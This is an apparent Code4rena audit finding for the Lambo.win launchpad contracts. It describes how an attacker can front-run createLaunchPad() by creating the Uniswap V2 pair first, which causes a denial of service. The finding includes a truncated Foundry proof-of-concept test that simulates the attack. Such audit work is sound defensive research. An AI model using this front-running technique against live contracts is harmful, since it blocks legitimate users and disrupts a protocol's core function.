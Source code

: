 ## [H-02] Launchpad creation can be DOS by front-running with creation of Uniswap V2 pool

<https://github.com/code-423n4/2024-12-lambowin/blob/b8b8b0b1d7c9733a7bd9536e027886adb78ff83a/src/LamboVEthRouter.sol#L41-L57>

<https://github.com/code-423n4/2024-12-lambowin/blob/b8b8b0b1d7c9733a7bd9536e027886adb78ff83a/src/LamboFactory.sol#L65-L83>

### Description

The `LamboFactory` contract allows anyone to create a new launchpad by calling the `createLaunchPad()` function or `LamboVEthRouter.createLaunchPadAndInitialBuy()`. This deploys a new `LamboToken` representing the quote token of the launchpad, and creates a Uniswap V2 pool pairing this quote token with a provided virtual liquidity token (e.g. `vETH`).

However, the pool creation step can be front-run by an attacker to prevent the launchpad from being created. Specifically, after the new quote token is deployed, the factory calls `IPoolFactory(LaunchPadUtils.UNISWAP_POOL_FACTORY_).createPair(virtualLiquidityToken, quoteToken)` to create the pool. If the attacker monitors the mempool for `createLaunchPad()` transactions and quickly submits a transaction to create a pool on uniswap v2 with the same token pair, the factory's subsequent attempt to create the pool will revert since the pair already exists. This causes the entire `createLaunchPad()` call to revert.

### Impact

An attacker can prevent any launchpad from being created by always front-running the pool creation. This is a denial of service on a core functionality of the protocol. The attack is very cheap for the attacker to execute, as they only need to pay gas for a single Uniswap pool creation per launchpad they want to block.

### Proof of Concept

Here is a test that demonstrates the attack:

Add this test to `GeneralTest.t.sol` and run :

```bash
forge test --match-test test_dos_create_launchpad_with_same_liquidity_address -vvv
```

```solidity
function test_dos_create_launchpad_with_same_liquidity_address() public {
    // Hacker front-runs the transaction
    vm.startPrank(hacker);

    // Simulate the next lambo token creation to get the next lambo token address
    (, bytes memory err) = address(this).call(abi.encodeWithSignature("revertbutGetAddress()"));
    address qT = abi.decode(err, (address));

    // Create the pair on uniswap
    IPoolFactory(LaunchPadUtils.UNISWAP_POOL_FACTORY_).createPair(address(vETH), address(qT));
    vm.stopPrank();

    // Legitimate user tries to create a launchpad
    address legitimateUser = makeAddr("legitimate");
    vm.deal(legitimateUser, 100 ether);

    // Legitimate user's transaction should fail due to MAX_LOAN_PER_BLOCK
    vm.startPrank(legitimateUser);
    vm.expectRevert("UniswapV2: PAIR_EXISTS");
    lamboRouter.createLaunchPadAndInitialBuy{value: 1 ether}(
        address(factory),
        "legit",
        "legit",
        1 ether,
```
